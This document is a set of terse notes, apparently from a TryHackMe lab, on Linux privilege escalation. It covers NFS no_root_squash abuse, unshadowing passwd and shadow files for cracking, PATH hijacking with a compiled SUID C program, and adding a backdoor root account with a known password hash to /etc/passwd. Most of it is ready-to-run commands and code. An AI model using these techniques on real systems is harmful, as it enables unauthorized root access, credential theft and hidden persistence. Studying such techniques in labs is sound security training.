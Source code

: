### Source that provides info on how any program with sudo rights can be used
https://gtfobins.github.io/

### NFS
NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.
The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.  
`showmount -e [ip]` to show mounted nfs shares
check for no root_squat shares
`mkdir /tmp/whatever`
`mount -o rw [ip]:/sharename /tmp/whatever`
create suid executable and execute it on a shell

### unshadow
unshadow passwd.txt [/etc/passwd] shadow.txt [/etc/shadow] > passwords.txt

#### $PATH Way
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
create a SUID file
something like
```
#include <unistd.h>
void main()
{
	setuid(0);
	setgid(0);
	system("thm");
}
```
chmod u+s after gcc compiling the above
export PATH=/tmp/:$PATH
`echo "/bin/bash" > [Folder that's writable. temp or something]`
chmod 777 the above

### add user with root privileges
openssl passwd -1 -salt THM password1
**outputs $1$THM$WnbwlliCqxFRQepUTCkUT1**
put a line in /etc/passwd
`someone:$1$THM$WnbwlliCqxFRQepUTCkUT1:0:0:root:/root:/bin/bash`

### getcap
Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.  
The capabilities man page provides detailed information on its usage and options.  
  